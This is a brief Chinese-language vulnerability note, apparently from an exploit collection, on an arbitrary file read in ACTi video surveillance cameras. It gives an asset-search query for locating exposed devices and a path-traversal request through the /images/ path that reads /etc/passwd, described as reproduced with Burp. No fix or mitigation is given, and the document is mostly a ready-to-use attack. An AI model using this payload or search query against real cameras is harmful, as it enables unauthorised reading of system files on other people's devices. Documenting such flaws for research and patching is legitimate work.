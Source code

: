 # ACTI 视频监控 images 任意文件读取漏洞

## 漏洞描述

ACTI 视频监控 存在任意文件读取漏洞

## 漏洞影响

```
ACTI摄像头
```

## 网络测绘

```
app="ACTi-视频监控"
```

## 漏洞复现

登录页面如下

![](images/202202140926386.png)

使用Burp抓包

```plain
/images/../../../../../../../../etc/passwd
```

![](images/202202140926873.png)
